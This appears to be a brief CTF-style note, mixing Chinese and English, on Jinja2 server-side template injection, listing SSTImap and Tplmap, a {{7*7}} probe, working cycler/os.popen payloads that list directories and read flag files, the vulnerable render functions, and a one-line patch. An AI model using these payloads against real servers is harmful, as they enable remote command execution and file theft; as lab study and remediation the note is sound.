



# SSTI(Server-Side Template Injection) :服务端模板注入
## jinjia
## 工具 :SSTImap、Tplmap

# {{7*7}}
# {{cycler.__init__.__globals__.os.popen('').read( )}}

## {{cycler.__init__.__globals__.os.popen('ls').read( )}}
## {{cycler.__init__.__globals__.os.popen('cat legend.txt').read( )}}
## {{ cycler.__init__.__globals__.os.popen('ls /opt').read() }}
## {{ cycler.__init__.__globals__.os.popen('ls /opt/legendary_spell').read() }}
## {{ cycler.__init__.__globals__.os.popen('cat /opt/legendary_spell/forbidden_spell.txt').read() }}

# 存在的问题

# `render_scroll_message()` 
# `message`
# `DEFAULT_MESSAGE`
# `template_source`
# `render_template_string()`

# Patch
## 替换为字符串

